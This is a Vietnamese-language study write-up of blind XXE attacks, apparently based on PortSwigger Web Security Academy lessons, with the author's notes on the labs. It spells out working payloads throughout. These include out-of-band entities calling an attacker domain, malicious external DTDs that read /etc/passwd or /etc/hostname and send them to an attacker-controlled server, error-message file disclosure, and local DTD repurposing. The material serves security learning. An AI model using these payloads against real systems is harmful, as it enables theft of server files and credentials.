

# Finding and exploiting blind XXE vulnerabilities
Trong phần này, chúng tôi sẽ giải thích tính năng chèn XXE mù là gì và mô tả các kỹ thuật khác nhau để tìm và khai thác các lỗ hổng XXE mù.
## What is blind XXE?
Lỗ hổng XXE mù phát sinh khi ứng dụng dễ bị tiêm XXE nhưng không trả về giá trị của bất kỳ thực thể bên ngoài nào được xác định trong phản hồi của nó. Điều này có nghĩa là không thể truy xuất trực tiếp các tệp phía máy chủ và do đó, XXE mù thường khó khai thác hơn các lỗ hổng XXE thông thường.\
Có hai cách chính để bạn có thể tìm và khai thác các lỗ hổng XXE ẩn:
- Bạn có thể kích hoạt các tương tác mạng ngoài băng tần, đôi khi lọc dữ liệu nhạy cảm trong dữ liệu tương tác.
- Bạn có thể kích hoạt các lỗi phân tích cú pháp XML theo cách các thông báo lỗi chứa dữ liệu nhạy cảm.
## Detecting blind XXE using out-of-band (OAST) techniques
Bạn thường có thể phát hiện XXE mù bằng cách sử dụng kỹ thuật tương tự như đối với các cuộc tấn công XXE SSRF nhưng kích hoạt tương tác mạng ngoài băng tần với hệ thống mà bạn kiểm soát. Ví dụ: bạn sẽ xác định một thực thể bên ngoài như sau:\
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`\
Sau đó, bạn sẽ sử dụng thực thể được xác định trong một giá trị dữ liệu trong XML.\
Cuộc tấn công XXE này khiến máy chủ thực hiện yêu cầu HTTP tới URL được chỉ định. Kẻ tấn công có thể theo dõi kết quả tra cứu DNS và yêu cầu HTTP, từ đó phát hiện rằng cuộc tấn công XXE đã thành công.

Ví dụ: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction

Bài này chỉ cần bắn gói tin ra ngoài:\ 


Đôi khi, các cuộc tấn công XXE sử dụng các thực thể thông thường bị chặn do một số xác thực đầu vào của ứng dụng hoặc việc tăng cường trình phân tích cú pháp XML đang được sử dụng. Trong trường hợp này, bạn có thể sử dụng các thực thể tham số XML để thay thế. Các thực thể tham số XML là một loại thực thể XML đặc biệt chỉ có thể được tham chiếu ở nơi khác trong DTD. Vì mục đích hiện tại, bạn chỉ cần biết hai điều. Đầu tiên, việc khai báo một thực thể tham số XML bao gồm ký tự phần trăm trước tên thực thể:\
`<!ENTITY % myparameterentity "my parameter entity value" >`\
Và thứ hai, các thực thể tham số được tham chiếu bằng ký tự phần trăm thay vì ký hiệu thông thường:\
`%myparameterentity;`\
Điều này có nghĩa là bạn có thể kiểm tra XXE mù bằng cách sử dụng tính năng phát hiện ngoài băng tần thông qua các thực thể tham số XML như sau:\
`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`\
Tải trọng XXE này khai báo một thực thể tham số XML có tên là xxe và sau đó sử dụng thực thể đó trong DTD. Điều này sẽ thực hiện tra cứu DNS và yêu cầu HTTP tới miền của kẻ tấn công, xác minh rằng cuộc tấn công đã thành công.

Ví dụ: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities

Tạo 1 thực thể: `% xxe`, gọi lại thực thể đó để thực thi gửi yêu cầu HTTP: `%xxe`:\


## Exploiting blind XXE to exfiltrate data out-of-band
Việc phát hiện lỗ hổng XXE mù thông qua các kỹ thuật ngoài băng tần là rất tốt, nhưng nó không thực sự chứng minh được lỗ hổng có thể bị khai thác như thế nào. Điều mà kẻ tấn công thực sự muốn đạt được là lấy cắp dữ liệu nhạy cảm. Điều này có thể đạt được thông qua lỗ hổng XXE mù, nhưng nó liên quan đến việc kẻ tấn công lưu trữ một DTD độc hại trên hệ thống mà chúng kiểm soát, sau đó gọi DTD bên ngoài từ bên trong tải trọng XXE trong băng tần.\
Một ví dụ về DTD độc hại nhằm lấy cắp nội dung của tệp `/etc/passwd` như sau:\
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
DTD này thực hiện các bước sau:\
- Xác định một thực thể tham số XML được gọi là `file`, chứa nội dung của tệp `/etc/passwd`.
- Xác định một thực thể tham số XML có tên là `eval`, chứa khai báo động của một thực thể tham số XML khác có tên là `exfiltrate`. Thực thể `exfiltrate` sẽ được đánh giá bằng cách tạo một yêu cầu HTTP tới máy chủ web của kẻ tấn công có chứa giá trị của thực thể `file` trong chuỗi truy vấn URL.
- Sử dụng thực thể `eval` để thực hiện khai báo động của thực thể `exfiltrate`.
- Sử dụng thực thể `exfiltrate` để giá trị của nó được đánh giá bằng cách yêu cầu URL được chỉ định

Sau đó, kẻ tấn công phải lưu trữ DTD độc hại trên hệ thống mà chúng kiểm soát, thông thường bằng cách tải nó lên máy chủ web của riêng chúng. Ví dụ: kẻ tấn công có thể phân phát DTD độc hại tại URL sau:\
`http://web-attacker.com/malicious.dtd`\
Cuối cùng, kẻ tấn công phải gửi tải trọng XXE sau tới ứng dụng dễ bị tấn công:\
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
Payload XXE này khai báo một thực thể tham số XML có tên là `xxe` và sau đó sử dụng thực thể đó trong DTD. Điều này sẽ khiến trình phân tích cú pháp XML tìm nạp DTD bên ngoài từ máy chủ của kẻ tấn công và diễn giải nó nội tuyến. Sau đó, các bước được xác định trong DTD độc hại sẽ được thực thi và tệp `/etc/passwd` được truyền đến máy chủ của kẻ tấn công.

Kỹ thuật này có thể không hoạt động với một số nội dung tệp, bao gồm các ký tự dòng mới có trong tệp `/etc/passwd`. Điều này là do một số trình phân tích cú pháp XML tìm nạp URL trong định nghĩa thực thể bên ngoài bằng cách sử dụng API xác thực các ký tự được phép xuất hiện trong URL. Trong trường hợp này, có thể sử dụng giao thức `FTP` thay vì `HTTP`. Đôi khi, không thể lọc dữ liệu chứa các ký tự dòng mới và do đó, thay vào đó, một tệp như `/etc/hostname` có thể được nhắm mục tiêu.

Ví dụ: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration

Đầu tiên ta cần set up file bên ngoài:\
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0ad2009704646ec28252b9750144000e.exploit-server.net/exploit/?x=%file;'>">
%eval;
%exfil;
```


Sau đó ở phần XML ở server, ta sẽ tải đường dẫn có đoạn payload đó về:\
\
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0ad2009704646ec28252b9750144000e.exploit-server.net/exploit"> %xxe;]>`

Và kết quả:\


Dòng log trên là dòng nó truy cập để lấy payload, còn dòng bôi đen là nó đang thực thi payload đó.

## Exploiting blind XXE to retrieve data via error messages
Một cách tiếp cận khác để khai thác XXE mù là gây ra lỗi phân tích cú pháp XML trong đó thông báo lỗi chứa dữ liệu nhạy cảm mà bạn muốn truy xuất. Điều này sẽ có hiệu lực nếu ứng dụng trả về thông báo lỗi trong phản hồi của nó.\
Bạn có thể kích hoạt thông báo lỗi phân tích cú pháp XML chứa nội dung của tệp `/etc/passwd` bằng DTD bên ngoài độc hại như sau:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
DTD này thực hiện các bước sau:
- Xác định một thực thể tham số XML được gọi là `file`, chứa nội dung của tệp `/etc/passwd`.
- Xác định một thực thể tham số XML được gọi là `eval`, chứa khai báo động của một thực thể tham số XML khác được gọi là `error`. Thực thể `error` sẽ được đánh giá bằng cách tải một tệp không tồn tại có tên chứa giá trị của thực thể `file`.
- Sử dụng thực thể `eval` để thực hiện khai báo động của thực thể `error`.
- Sử dụng thực thể `error` để giá trị của nó được đánh giá bằng cách cố tải tệp không tồn tại, dẫn đến thông báo lỗi chứa tên của tệp không tồn tại, là nội dung của tệp `/etc/passwd`.

Việc gọi DTD độc hại bên ngoài sẽ dẫn đến thông báo lỗi như sau:\
```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```
Ví dụ: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages

Set up payload:\
 

Ở web, ta tải URL chứa payload đó về:\


## Exploiting blind XXE by repurposing a local DTD - Tái sử dụng DTD ở local
Kỹ thuật trước hoạt động tốt với DTD bên ngoài, nhưng thông thường nó sẽ không hoạt động với DTD bên trong được chỉ định đầy đủ trong phần tử `DOCTYPE`. **Điều này là do kỹ thuật này liên quan đến việc sử dụng một thực thể tham số XML trong định nghĩa của một thực thể tham số khác. Theo đặc tả XML, điều này được phép trong các DTD bên ngoài nhưng không được phép trong các DTD bên trong**. (Một số trình phân tích cú pháp có thể chấp nhận được điều đó, nhưng nhiều trình thì không.)\
Vậy còn lỗ hổng XXE mù khi các tương tác ngoài băng tần bị chặn thì sao? Bạn không thể lọc dữ liệu qua kết nối ngoài băng tần và bạn không thể tải DTD bên ngoài từ máy chủ từ xa.\
Trong trường hợp này, vẫn có thể kích hoạt các thông báo lỗi chứa dữ liệu nhạy cảm do lỗ hổng trong đặc tả ngôn ngữ XML. Nếu DTD của tài liệu sử dụng kết hợp các khai báo DTD bên trong và bên ngoài thì DTD bên trong có thể xác định lại các thực thể được khai báo trong DTD bên ngoài. Khi điều này xảy ra, hạn chế về việc sử dụng một thực thể tham số XML trong định nghĩa của một thực thể tham số khác sẽ được nới lỏng.\
Điều này có nghĩa là kẻ tấn công có thể sử dụng kỹ thuật XXE dựa trên lỗi từ bên trong DTD nội bộ, **miễn là thực thể tham số XML mà chúng sử dụng đang xác định lại thực thể được khai báo trong DTD bên ngoài**. Tất nhiên, nếu các kết nối ngoài băng tần bị chặn thì DTD bên ngoài không thể được tải từ một vị trí ở xa. Thay vào đó, nó cần phải là một tệp DTD bên ngoài cục bộ trên máy chủ ứng dụng. Về cơ bản, cuộc tấn công liên quan đến việc gọi một tệp DTD tồn tại trên hệ thống tệp cục bộ và tái sử dụng nó để xác định lại một thực thể hiện có theo cách gây ra lỗi phân tích cú pháp chứa dữ liệu nhạy cảm. Kỹ thuật này do Arseniy Sharoglazov tiên phong và xếp thứ 7 trong 10 kỹ thuật hack web hàng đầu năm 2018 của chúng tôi.\
Ví dụ: giả sử có một tệp DTD trên hệ thống tệp máy chủ tại vị trí `/usr/local/app/schema.dtd` và tệp DTD này xác định một thực thể có tên là `custom_entity`. Kẻ tấn công có thể kích hoạt thông báo lỗi phân tích cú pháp XML chứa nội dung của tệp `/etc/passwd` bằng cách gửi một DTD lai như sau:
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
DTD này thực hiện các bước sau:
- Xác định một thực thể tham số XML có tên `local_dtd`, chứa nội dung của tệp DTD bên ngoài tồn tại trên hệ thống tệp máy chủ.
- Xác định lại thực thể tham số XML có tên `custom_entity`, đã được xác định trong tệp DTD bên ngoài. Thực thể này được xác định lại là chứa khai thác XXE dựa trên lỗi đã được mô tả để kích hoạt thông báo lỗi chứa nội dung của tệp `/etc/passwd`.
- Sử dụng thực thể `local_dtd` để diễn giải DTD bên ngoài, bao gồm giá trị được xác định lại của thực thể `custom_entity`. Điều này dẫn đến thông báo lỗi mong muốn.

### Vậy làm sao để Định vị tệp DTD hiện có để sử dụng lại
Vì cuộc tấn công XXE này liên quan đến việc tái sử dụng một DTD hiện có trên hệ thống tệp máy chủ, nên yêu cầu chính là xác định vị trí tệp phù hợp. Điều này thực sự khá đơn giản. Vì ứng dụng trả về bất kỳ thông báo lỗi nào được trình phân tích cú pháp XML đưa ra nên bạn có thể dễ dàng liệt kê các tệp DTD cục bộ chỉ bằng cách thử tải chúng từ bên trong DTD nội bộ.\
Ví dụ: các hệ thống `Linux` sử dụng môi trường máy tính để bàn `Gnome` thường có tệp DTD tại `/usr/share/yelp/dtd/docbookx.dtd`. Bạn có thể kiểm tra xem tệp này có tồn tại hay không bằng cách gửi tải trọng XXE sau, điều này sẽ gây ra lỗi nếu thiếu tệp:
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
Sau khi bạn đã kiểm tra danh sách các tệp DTD phổ biến để định vị một tệp hiện có, bạn cần lấy một bản sao của tệp và xem lại nó để tìm một thực thể mà bạn có thể xác định lại. Vì nhiều hệ thống phổ biến bao gồm các tệp DTD là nguồn mở nên thông thường bạn có thể nhanh chóng có được bản sao của tệp thông qua tìm kiếm trên internet.

Ví dụ: https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd

Xác định đây là dạng có thể khai thác thông tin từ thông báo lỗi.

Xác định tệp DTD có ở local:\
\


Không gây ra lỗi => File tồn tại

Sửa payload để tấn công:\


